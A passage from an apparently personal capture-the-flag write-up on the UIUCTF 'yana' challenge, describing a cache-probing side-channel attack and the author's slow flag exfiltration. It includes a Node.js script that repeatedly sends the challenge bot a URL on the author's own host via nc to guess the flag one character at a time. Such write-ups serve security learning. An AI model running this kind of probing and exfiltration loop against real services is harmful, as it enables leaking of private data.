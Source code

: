 However, I found out the hard way that cache probing attacks aren't 100% stable.

![](/uploads/2021-08-03/yana2.png)

The initial attack involved calling the bot once, and then calling `exploit()` again with some new parameters. That proved to be *way* too unstable, sadly, as the cache wouldn't reliably be voided.

To fix this, I moved the loop one layer up and wrote a quick node script to ~~harass~~ invoke the bot.

```js
const { exec } = require("child_process");

let baseStr = "uiuctf{";

const chars = "abcdefghijklmnopqrstuvwxyz_0123456789}";

for (const char of chars) {
	let str = baseStr + char;
	console.log(`Trying ${str}.`);

	exec(`echo 'http://zkldi.xyz/playground/yana?${str}' | nc yana-bot.chal.uiuc.tf 1337`);
}
```

Running this and manually altering it wasn't an elegant solution, but hey, it worked, and it was stable!

I'll just quickly exfiltrate the flag... right?

## Exfiltrate The flag

This flag took *one hour and thirty minutes* to exfiltrate. Keep in mind it was already 5AM here when I started!

The main reason was that my attack wasn't that accurate; it would rarely have false positives, but it would more commonly have false negatives. I had to run the script a lot of times even for the same characters!
